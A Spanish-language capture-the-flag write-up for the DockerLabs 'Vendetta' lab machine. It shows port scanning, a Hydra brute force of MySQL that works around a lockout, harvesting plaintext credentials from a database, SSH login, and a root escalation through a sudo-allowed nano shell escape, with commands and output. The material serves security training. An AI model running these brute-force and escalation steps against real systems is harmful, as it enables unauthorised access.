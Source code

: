 # Vendetta DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip vendetta.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh vendetta.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 13:10 EST
Nmap scan report for 172.17.0.2
Host is up (0.000025s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:66:3d:c0:de:2c:1a:25:f8:fc:10:8a:5c:e9:d2:ba (ECDSA)
|_  256 45:89:84:f6:20:34:a6:7a:2e:1e:07:24:ac:ce:d0:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: V de Vendetta
3306/tcp open  mysql   MySQL 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
|   Thread ID: 35
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolOld, InteractiveClient, Support41Auth, DontAllowDatabaseTableColumn, FoundRows, LongColumnFlag, Speaks41ProtocolNew, ODBCClient, SupportsTransactions, SupportsLoadDataLocal, SupportsCompression, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: O~LBChd=Ao/9nA:?l#g`
|_  Auth Plugin Name: mysql_native_password
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.02 seconds
```

Vemos una pagina aparentemente normal, pero si la inspeccionamos, veremos lo siguiente:

```html
 <p class="about__text"><strong>V</strong>isible pero a la Vez oculto.</p>
```

Vemos que hay una `V` oculta, por lo que probaremos a utilizarlo como nombre de usuario en la `Base de datos` de `MySQL` que tenemos como puerto, ya que por `SSH` no nos dara nada.

## Hydra

```shell
hydra -l V -P <WORDLIST> mysql://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-27 13:13:21
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://172.17.0.2:3306/
[ERROR] Host '172.17.0.1' is blocked because of many connection errors; unblock with 'mariadb-admin flush-hosts'
[ERROR] Host '172.17.0.1' is blocked because of many connection errors; unblock with 'mariadb-admin flush-hosts'
```

Vemos que pasado un rato nos bloquea, por lo que veremos que por dentro habra algun mecanismo de bloque.

Por lo que vamos ha modificar un poco el diccionario de `rockyou.txt` de la siguiente forma, primero le daremos la vuelta al diccionario.

```shell
tac /usr/share/wordlists/rockyou.txt > reverseRockyou.txt
```

Y ahora quitaremos todos los numeros que no nos van a servir.

```shell
cat reverseRockyou.txt | tr -cd '[:alnum:]\n' > reverseRockyouClear.txt
```

Echo esto, volveremos a lanzar el ataque.

```shell
hydra -l V -P reverseRockyouClear.txt mysql://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-27 13:19:25
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14338619 login tries (l:1/p:14338619), ~3584655 tries per task
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: V   password: ie168
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-27 13:19:27
```

Y vemos que tendremos unas credenciales de `mysql`, por lo que nos meteremos de la siguiente forma.

## Escalate user Vendetta

### MYSQL

```shell
mysql -h <IP> -u V -pie168 --ssl=0
```

Y con esto estaremos dentro como dicho usuario.

Ahora vamos a investigar si encontramos algunas credenciales.

```sql
show databases;
```

Info:

```
+--------------------+
| Database           |
+--------------------+
| BTN                |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.001 sec)
```

Vemos que la unica base de datos que no se crea de forma automatica es la llamada `BTN`:

```sql
show tables;
```

Info:

```
+---------------+
| Tables_in_BTN |
+---------------+
| users         |
+---------------+
1 row in set (0.000 sec)
```

Vamos a ver que contiene dicha tabla de la siguiente forma:

```sql
select * from users;
```

Info:

```
+----+----------+-----------+
| id | user     | password  |
+----+----------+-----------+
|  1 | Vendetta | OldBailey |
+----+----------+-----------+
1 row in set (0.000 sec)
```

Vemos que hemos obtenido las credenciales del usuario `Vendetta`, por lo que haremos lo siguiente:

### SSH

```shell
ssh Vendetta@<IP>
```

Metemos como contraseña `OldBailey` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for Vendetta on eb0db362fd97:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User Vendetta may run the following commands on eb0db362fd97:
    (ALL) NOPASSWD: /usr/bin/nano
```

Vemos que podemos ejecutar el binario `nano` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo nano
^R^X
reset; bash 1>&0 2>&0
```

Info:

```
root@eb0db362fd97:/home/Vendetta# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
